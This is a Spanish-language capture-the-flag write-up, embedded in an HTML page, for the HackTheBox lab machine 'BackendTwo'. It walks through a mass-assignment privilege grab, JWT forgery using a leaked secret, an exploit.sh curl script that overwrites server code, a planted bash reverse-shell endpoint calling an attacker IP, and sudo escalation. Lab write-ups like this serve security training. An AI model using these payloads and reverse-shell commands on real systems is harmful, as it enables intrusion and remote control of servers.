


<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Post - BackendTwo</title>
    <link href="https://fonts.googleapis.com/css2?family=Merriweather:wght@400;700&family=Open+Sans:wght@400;600&display=swap" rel="stylesheet">
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/styles/github.min.css">
    <style>
        body {
            font-family: 'Open Sans', sans-serif;
            max-width: 800px;
            margin: 0 auto;
            padding: 20px;
            color: #fff;
            background-color: #000;
            line-height: 1.6;
        }
        
        h1, h2, h3, h4, h5, h6 {
            font-family: 'Merriweather', serif;
            margin-bottom: 20px;
        }

        img {
            max-width: 100%;
            height: auto;
            margin: 20px 0;
            border-radius: 5px;
            box-shadow: 0 4px 6px rgba(255, 255, 255, 0.1);
        }

        pre {
            background-color: #222;
            padding: 10px;
            overflow-x: auto;
            border-radius: 5px;
        }

        code {
            font-family: 'Courier New', Courier, monospace;
            background-color: #222;
            padding: 2px 4px;
            border-radius: 3px;
        }

        blockquote {
            border-left: 4px solid #ccc;
            margin-left: 0;
            padding-left: 20px;
            font-style: italic;
            color: #ccc;
        }

        a {
            color: #fff;
            text-decoration: underline;
        }
    </style>
</head>
<body>
    <div id="post">
        <!-- Aquí se insertará el contenido del post en formato Markdown -->
    </div>

    <script src="https://cdnjs.cloudflare.com/ajax/libs/showdown/1.9.1/showdown.min.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/highlight.min.js"></script>
    <script>
        // Obtener el contenido del post en formato Markdown (puedes reemplazar esto con tu propia lógica)
        const markdownContent = `
# Máquina "BackendTwo" de HackTheBox

Caracteristicas:

- Linux  
- Media
- API Enumeration Abusing API 
- Registering a user Accessing the Docs path of FastAPI Mass Assignment Attack (Becoming superusers) Abusing API 
- Reading system files Information Leakage Forge JWT (Assigning us an extra privilege) Abusing API 
- Creating a new file to achieve remote command execution (RCE) Abusing pam_wordle (Privilege Escalation)

Util en:

- eWPT
- eWPTXv2
- OSWE

        IP 10.10.11.162
   
- nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.162 -oG allPorts

    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http

- sudo nmap -sCV  -p22,80 10.10.11.161 -oN targeted

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    uvicorn

- nmap -p 22,80 -sCV -oA scans/nmap-tcpscripts 10.10.11.162

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    uvicorn

|   GetRequest: 
|     HTTP/1.1 200 OK
|     date: Tue, 26 Apr 2022 19:43:42 GMT
|     server: uvicorn
|     content-length: 22
|     content-type: application/json
|     Connection: close
|     {"msg":"UHC Api v2.0"}
|_http-server-header: uvicorn

si vemos la pagina web que proporciona el puero 80 podemos ver una pagina similar a la de
backend solo que esta vez dice v2.0.



empezamos fuzeando

- gobuster dir -u http://10.10.11.162/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/api/objects.txt

/api                  (Status: 200) [Size: 19]

/docs                 (Status: 401) [Size: 30]
         
donde 



Al igual que con el primer cuadro de backend, podemos enumerar usuarios con la identificación

http://10.10.11.162/api/v1/admin/ requiere autenticación 

http://10.10.11.162/docs requiere autenticación 

continuamos con.

- wfuzz -X POST -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://10.10.11.162/api/v1/user/FUZZ --hc 404,405

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.162/api/v1/user/FUZZ
Total requests: 4702

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                     
=====================================================================

000001029:   307        0 L      0 W        0 Ch        "cgi-bin/"                                                                                                                                                                  
000002500:   422        0 L      3 W        172 Ch      "login"                                                                                                                                                                     
000003788:   422        0 L      2 W        81 Ch       "signup"  

y al igual que la primera maquina backend, podemos crear un usuario.


iniciamos sesion y obtenemos el token.


Luego podemos acceder al swager con intercepción, agregamos nuestro token y configuramos 
el tipo de contenido en json.


Nos redirigen a openapi.json y tenemos una solicitud de bandera de usuario en el swagger pero necesiamos
ser admin para agarrarla. Podemos enumerar a los usuarios con burpsuie.


podemos ver 12 usuarios y tambien podremos ver otro perfil del que somos "profile":"UHC Player", 
también hay un invitado "profile":"UHC Guest",y por supuesto el Admin 
podemos editar un perfil.


mi JWT indicaba que era el usuario 12, así que intentaré /user/12, y me devuelve mi información: 


el id de usuario 1 es admin

{
  "guid": "25d386cd-b808-4107-8d3a-4277a0443a6e",
  "email": "admin@backendtwo.htb",
  "profile": "UHC Admin",
  "last_update": null,
  "time_created": 1650987800991,
  "is_superuser": true,
  "id": 1
}

El punto final "Editar perfil" toma un ID de usuario en la ruta y un cuerpo JSON con una clave de "perfil", 
configurada de forma predeterminada en "cadena". Lo cambiaré por otra cosa.
El punto final "Editar contraseña" es interesante y toma una identificación de usuario en la ruta y un JSON 
con una clave de "contraseña" en el cuerpo de la POST. 

en este punto podemos pensar en que una vulnerabilidad de asignación masiva en el punto final de actualización 
del perfil. Cuando ve los documentos de la API, simplemente lo muestran con una clave de "perfil": 
mas sobre vulnerabilidad de asignación https://en.wikipedia.org/wiki/Mass_assignment_vulnerability
Pero puedo agregar más campos al JSON. Por ejemplo, si agrego el campo de correo electrónico: 

{
  "profile": "massasignament",
  "email": "test@htb.htb",
}

El resultado vuelve true, y si consulto a mi usuario, no solo ha cambiado el perfil, sino también el correo electrónico: 
Del mismo modo me entregaré is_superuser, ahora consultando a mi usuario: 

{
  "guid": "f4350520-f6dd-4c66-b9c9-04aa687f0bb6",
  "email": "new@test.htb",
  "profile": "massasignament",
  "last_update": null,
  "time_created": 1651007826026,
  "is_superuser": false,
  "id": 12
}

ahora del mismo modo nos me asigno is_superuser

{
  "guid": "f4350520-f6dd-4c66-b9c9-04aa687f0bb6",
  "email": "new@test.htb",
  "profile": "massasignament",
  "last_update": null,
  "time_created": 1651007826026,
  "is_superuser": true,
  "id": 12
}

si reviso /api/v1/admin/Ahora, todavía dice falso por ende las capacidades de administración del usuario 
se almacenan en su token JWT y no se comparan con la base de datos en cada consulta. 

Haré clic en el candado al lado de uno de los puntos finales autenticados e iniciaré sesión con ese formulario y presionar 
"Autorizar", muestra que he iniciado sesión

Desactivaré el encabezado de modificación simple en este punto, ya que los documentos ahora están administrando mi token. 
        
Ahora al ejecutar “Admin Check”, regresa true y podemos ver la bandera de usuario.

Ahora juguemos con la solicitud de lectura y escritura de archivos que podemos ver en el swagger para obtener un archivo 
cuyo nombre debe estar en la URL base64 como se menciona en el swagger. 
Podemos obtener /etc/passwd de esta manera.


ahora buscamos el main.py, debería estar aquí. /home/htb/app/main.py

- import asyncio\nimport os\n\nwith open('pid','w') as f:\n    f.write( str(os.getpid())  )\n\nfrom fastapi import FastAPI, APIRouter, Query, HTTPException, Request, Depends\nfrom fastapi_contrib.common.responses import UJSONResponse\nfrom fastapi import FastAPI, Depends, HTTPException, status\nfrom fastapi.security import HTTPBasic, HTTPBasicCredentials\nfrom fastapi.openapi.docs import get_swagger_ui_html\nfrom fastapi.openapi.utils import get_openapi\n\n\n\nfrom typing import Optional, Any\nfrom pathlib import Path\nfrom sqlalchemy.orm import Session\n\n\n\nfrom app.schemas.user import User\nfrom app.api.v1.api import api_router\nfrom app.core.config import settings\n\nfrom app.api import deps\nfrom app import crud\n\n\n\napp = FastAPI(title=\"UHC API Quals\", openapi_url=None, docs_url=None, redoc_url=None)\nroot_router = APIRouter(default_response_class=UJSONResponse)\n\n\n\n@app.get(\"/\", status_code=200)\ndef root():\n    \"\"\"\n    Root GET\n    \"\"\"\n    return {\"msg\": \"UHC Api v2.0\"}\n\n\n@app.get(\"/api\", status_code=200)\ndef root():\n    \"\"\"\n    /api endpoints\n    \"\"\"\n    return {\"endpoints\":\"/v1\"}\n\n\n@app.get(\"/api/v1\", status_code=200)\ndef root():\n    \"\"\"\n    /api/v1 endpoints\n    \"\"\"\n    return {\"endpoints\":[\"/user\",\"/admin\"]}\n\n\n\n@app.get(\"/docs\")\nasync def get_documentation(\n    current_user: User = Depends(deps.parse_token)\n    ):\n    return get_swagger_ui_html(openapi_url=\"/openapi.json\", title=\"docs\")\n\n@app.get(\"/openapi.json\")\nasync def openapi(\n    current_user: User = Depends(deps.parse_token)\n):\n    return get_openapi(title = \"FastAPI\", version=\"0.1.0\", routes=app.routes)\n\napp.include_router(api_router, prefix=settings.API_V1_STR)\napp.include_router(root_router)\n\n\ndef start():\n    import uvicorn\n\n    uvicorn.run(app, host=\"0.0.0.0\", port=80, log_level=\"debug\")\n\nif __name__ == \"__main__\":\n    # Use this for debugging purposes only\n    import uvicorn\n\n    uvicorn.run(app, host=\"0.0.0.0\", port=80, log_level=\"debug\")\n

No podemos escribir el archivo porque solicita una clave de depuración (al igual que el primer cuadro de la maquina backend) 
Esta línea en la aplicación main.py podría ayudarnos app.core.config import settings. Intentemos ver /home/htb/app/core/config.py


al aplicar cambios y lo recuperamos


Y vemos en la configuración que obtiene su secreto de una var env 
JWT_SECRET: str = os.environ['API_KEY'] Necesitamos conseguir el /proc/self/environ


Tenemos la clave privada: API_KEY=68b329da9893e34099c7d8ad5cb9c940

Ahora sólo necesitamos modificar nuestro token en jwt.io con la clave privada y agregar la depuración a verdadero.  
Tomemos el token, lo peguemos allí y hagamos los cambios.
funciona.

En este punto, podríamos intentar sobrescribir un script para crear un punto final que envíe un shell inverso. 

Busquemos user.py (podemos usar el script de ippsec de la sección de bonificación a continuación para buscarlo) 
./getfile.sh app/api/v1/endpoints/user.py > user.py

Podemos agregar esto al final de user.py

    @router.delete("/ShellMe", status_code=200)
    def fetch_shell() -> Any:
        """
        Sends a reverse shell
        """
        import os
        os.system("bash -c 'bash -i >& /dev/tcp/10.10.14.11/9001 0>&1'")
        return

Ahora tenemos que tomar el script completo y escaparlo en json. Podemos hacer esto con  este sitio web  y obtenemos 
nuestro nuevo script: 

    from typing import Any, Optional\r\nfrom uuid import uuid4\r\nfrom datetime import datetime\r\n\r\n\r\nfrom fastapi import APIRouter, Depends, HTTPException, Query, Request\r\nfrom fastapi.security import OAuth2PasswordRequestForm\r\nfrom sqlalchemy.orm import Session\r\n\r\nfrom app import crud\r\nfrom app import schemas\r\nfrom app.api import deps\r\nfrom app.models.user import User\r\nfrom app.core.security import get_password_hash\r\n\r\nfrom pydantic import schema\r\ndef field_schema(field: schemas.user.UserUpdate, **kwargs: Any) -> Any:\r\n    if field.field_info.extra.get(\"hidden_from_schema\", False):\r\n        raise schema.SkipField(f\"{field.name} field is being hidden\")\r\n    else:\r\n        return original_field_schema(field, **kwargs)\r\n\r\noriginal_field_schema = schema.field_schema\r\nschema.field_schema = field_schema\r\n\r\nfrom app.core.auth import (\r\n    authenticate,\r\n    create_access_token,\r\n)\r\n\r\nrouter = APIRouter()\r\n\r\n@router.get(\"\/{user_id}\", status_code=200, response_model=schemas.User)\r\ndef fetch_user(*, \r\n    user_id: int, \r\n    db: Session = Depends(deps.get_db) \r\n    ) -> Any:\r\n    \"\"\"\r\n    Fetch a user by ID\r\n    \"\"\"\r\n    result = crud.user.get(db=db, id=user_id)\r\n    return result\r\n\r\n\r\n@router.put(\"\/{user_id}\/edit\")\r\nasync def edit_profile(*,\r\n    db: Session = Depends(deps.get_db),\r\n    token: User = Depends(deps.parse_token),\r\n    new_user: schemas.user.UserUpdate,\r\n    user_id: int\r\n) -> Any:\r\n    \"\"\"\r\n    Edit the profile of a user\r\n    \"\"\"\r\n    u = db.query(User).filter(User.id == token['sub']).first()\r\n    if token['is_superuser'] == True:\r\n        crud.user.update(db=db, db_obj=u, obj_in=new_user)\r\n    else:        \r\n        u = db.query(User).filter(User.id == token['sub']).first()        \r\n        if u.id == user_id:\r\n            crud.user.update(db=db, db_obj=u, obj_in=new_user)\r\n            return {\"result\": \"true\"}\r\n        else:\r\n            raise HTTPException(status_code=400, detail={\"result\": \"false\"})\r\n\r\n@router.put(\"\/{user_id}\/password\")\r\nasync def edit_password(*,\r\n    db: Session = Depends(deps.get_db),\r\n    token: User = Depends(deps.parse_token),\r\n    new_user: schemas.user.PasswordUpdate,\r\n    user_id: int\r\n) -> Any:\r\n    \"\"\"\r\n    Update the password of a user\r\n    \"\"\"\r\n    u = db.query(User).filter(User.id == token['sub']).first()\r\n    if token['is_superuser'] == True:\r\n        crud.user.update(db=db, db_obj=u, obj_in=new_user)\r\n    else:        \r\n        u = db.query(User).filter(User.id == token['sub']).first()        \r\n        if u.id == user_id:\r\n            crud.user.update(db=db, db_obj=u, obj_in=new_user)\r\n            return {\"result\": \"true\"}\r\n        else:\r\n            raise HTTPException(status_code=400, detail={\"result\": \"false\"})\r\n\r\n@router.post(\"\/login\")\r\ndef login(db: Session = Depends(deps.get_db),\r\n    form_data: OAuth2PasswordRequestForm = Depends()\r\n) -> Any:\r\n    \"\"\"\r\n    Get the JWT for a user with data from OAuth2 request form body.\r\n    \"\"\"\r\n    \r\n    timestamp = datetime.now().strftime(\"%m\/%d\/%Y, %H:%M:%S\")\r\n    user = authenticate(email=form_data.username, password=form_data.password, db=db)\r\n    if not user:\r\n        with open(\"auth.log\", \"a\") as f:\r\n            f.write(f\"{timestamp} - Login Failure for {form_data.username}\\n\")\r\n        raise HTTPException(status_code=400, detail=\"Incorrect username or password\")\r\n    \r\n    with open(\"auth.log\", \"a\") as f:\r\n            f.write(f\"{timestamp} - Login Success for {form_data.username}\\n\")\r\n\r\n    return {\r\n        \"access_token\": create_access_token(sub=user.id, is_superuser=user.is_superuser, guid=user.guid),\r\n        \"token_type\": \"bearer\",\r\n    }\r\n\r\n@router.post(\"\/signup\", status_code=201)\r\ndef create_user_signup(\r\n    *,\r\n    db: Session = Depends(deps.get_db),\r\n    user_in: schemas.user.UserSignup,\r\n) -> Any:\r\n    \"\"\"\r\n    Create new user without the need to be logged in.\r\n    \"\"\"\r\n\r\n    new_user = schemas.user.UserCreate(**user_in.dict())\r\n\r\n    new_user.guid = str(uuid4())\r\n\r\n    user = db.query(User).filter(User.email == new_user.email).first()\r\n    if user:\r\n        raise HTTPException(\r\n            status_code=400,\r\n            detail=\"The user with this username already exists in the system\",\r\n        )\r\n    user = crud.user.create(db=db, obj_in=new_user)\r\n\r\n    return user\r\n\r\n@router.get(\"\/shell\", status_code=200)\r\ndef fetch_user() -> Any:\r\n    \"\"\"\r\n    Sends a reverse shell\r\n    \"\"\"\r\n    os.system(\"bash -c 'bash -i >& \/dev\/tcp\/10.10.14.11\/4444 0>&1' \")\r\n    return

ahora podemos usarlo en un nuevo script bash (lo llamé exploit.sh) 

    #! /bin/bash

    TOKEN=<Your-token-here>
    b64url=$(echo -n "app/api/v1/endpoints/user.py" | base64 | tr '/+' '_-' | tr -d '=')

    curl -s -X POST http://10.10.11.162/api/v1/admin/file/$ {b64url} -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" -d "{\"file\":\"$(cat escaped)\"}" | jq .result -r

lo lanzamos y si actualizamos nuestro swagger (/docs), vemos un nuevo método.
Configuremos nc en el puerto que especificamos en nuestro script (4444)

- nc -lvnp 4444

y con esto ya tendriamos nuestra reverse shell.
ahora si accedemos al auh.log al igual que la maquina anterior vemos credenciales.
Resulta que es la contraseña del usuario htb, no la raíz, por lo que en caso de que necesitemos ssh como htb, 
tenemos una contraseña. 1qaz2wsx_htb!

accedemos por ssh y si hacemos sudo -l con el usuario, se inicia un juego de palabras de wordle, 
intentemos encontrar el script que usa wordle. 

- find / -name *wordle* 2>/dev/null


Hagamos una cadena en el archivo. 

- strings /usr/lib/x86_64-linux-gnu/security/pam_wordle.so

el archivo /opt/.words son todas las palabras adivinadas. Lanzamos sudo -l 

--- Attempt 1 of 6 ---
Word: uname
Hint->???*?

Entonces la palabra tiene una m en otro lugar así que busquemos una palabra con otra m 

--- Attempt 2 of 6 ---
Word: mlock
Hint->*?**?

Así que ahora tenemos un mun oy un cexcepto que m no está al principio ni en el cuarto lugar, 
iniciemos otro shell y busquemos nuestro archivo con todas las palabras.  
intentemos chmod y funciona.
podemos ejecutar todos los comandos, así que tomemos la bandera con cat. 

- sudo cat /root/root.txt

Algunos de los writeups en esta página, pueden tener contenido de otras páginas o tener muy pocas imágenes, esto 
debido a que en algunas de las máquinas que realice, no tome los apuntes o no tome capturas de pantalla, así que he decidido buscar varios writeups
y agregar lo que esté mejor explicado en cada uno para plasmarlo aquí, también si encuentra faltas de ortografía 
o cualquier error, Puedes contactarme a mi correo.

lerioxirit@proton.me


        `;
        
        // Convertir Markdown a HTML
        const converter = new showdown.Converter();
        const html = converter.makeHtml(markdownContent);

        // Insertar el HTML generado en el elemento con id "post"
        document.getElementById('post').innerHTML = html;

        // Resaltar la sintaxis del código
        hljs.initHighlightingOnLoad();
    </script>
</body>
</html>